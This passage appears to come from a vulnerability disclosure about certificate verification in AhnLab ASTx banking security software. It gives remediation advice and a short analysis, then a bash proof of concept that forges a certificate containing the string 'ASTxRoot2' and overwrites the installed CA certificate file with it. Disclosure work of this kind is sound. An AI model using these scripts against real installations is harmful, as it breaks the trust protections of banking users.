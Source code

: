 ### Immediate Fixes:
1. **Implement proper signature verification** using OpenSSL verification APIs
2. **Add certificate chain validation** against trusted root CAs
3. **Include expiration date checking** in verification logic
4. **Validate certificate key usage** for intended purpose

### Systematic Improvements:
1. **Use standard OpenSSL verification functions**: `X509_verify_cert()`
2. **Implement certificate store management**: Proper CA certificate handling
3. **Add revocation checking**: CRL or OCSP validation
4. **Security code review**: Audit all certificate-related functionality
5. **Adopt established crypto libraries**: Avoid custom cryptographic implementations

## Research Significance

This vulnerability demonstrates **fundamental misunderstanding of cryptographic principles** in Korean banking software development:

1. **Security Theater**: Appearance of security without actual protection
2. **Crypto Cargo Culting**: Using cryptographic formats without understanding security properties
3. **Trust Model Failure**: Complete breakdown of certificate-based trust architecture
4. **Industry-Wide Pattern**: Likely representative of broader crypto implementation issues

## Proof of Concept

### Create Bypassing Certificate:
```bash
#!/bin/bash
# Create certificate that bypasses ASTx verification

# Generate malicious certificate with required subject string
openssl req -x509 -newkey rsa:2048 -keyout bypass.key -out bypass.crt \
  -days 3650 -nodes -batch \
  -subj "/CN=EVIL CERTIFICATE/O=ASTxRoot2/C=XX/ST=Malicious/L=Attacker"

# Verify it contains required string
echo "Certificate subject:"
openssl x509 -in bypass.crt -noout -subject

echo -e "\nThis certificate will pass ASTx verification!"
echo "String search for 'ASTxRoot2':"
openssl x509 -in bypass.crt -noout -subject | grep -o "ASTxRoot2"
```

### File Replacement Attack:
```bash
#!/bin/bash
# Replace legitimate ASTx certificate with malicious version

# Backup original
cp /opt/AhnLab/ASTx/ConfigFile/ca-certificate2.crt /tmp/original.crt.backup

# Deploy malicious certificate  
cp bypass.crt /opt/AhnLab/ASTx/ConfigFile/ca-certificate2.crt

echo "Malicious certificate deployed. ASTx will accept it as valid."
```
